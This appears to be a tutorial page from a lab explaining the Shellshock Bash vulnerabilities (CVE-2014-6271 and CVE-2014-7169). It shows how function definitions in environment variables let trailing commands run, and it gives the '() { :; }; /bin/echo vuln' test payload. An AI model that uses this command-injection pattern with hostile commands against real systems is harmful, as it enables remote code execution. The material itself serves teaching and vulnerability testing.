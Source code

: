 

## Magic Bash runes

Bash allows to write a function definition inside of an environment variable
and pass it to a subshell.

The only requirement is that the definition must begin with the magic ``() {``
four bytes.

## CVE-2014-6271: ``() { :;}; CMD``

When Bash passes that env var, it will detect the ``() {`` prefix and
it will parse *and* execute the remaining function definition.

The bug happen because Bash will not stop after the function's end
but it will continue parsing and executing the rest ``CMD``.

Try this in the lab:

```shell
$ X='() { :; }; /bin/echo vuln'
$ export X
$ bash -c 'echo "foo"'
vuln
<...>

```



Or, in one line:

```shell
$ X='() { :; }; /bin/echo vuln' bash -c 'echo "foo"'
vuln
<...>

```

If you are vulnerable, that command should print ``vuln``
(and probably it will crash too).

Because the bug happens in a very early phase, ``CMD`` must be
with the full path (``PATH`` may not exist)


### CVE-2014-7169: ``() { function a a>\`` & ``bash -c "FILE CMD"``

The incantation of these runes has two parts.

Imagine the following command that prints two words:


```
$ echo echo vuln
echo vuln

```
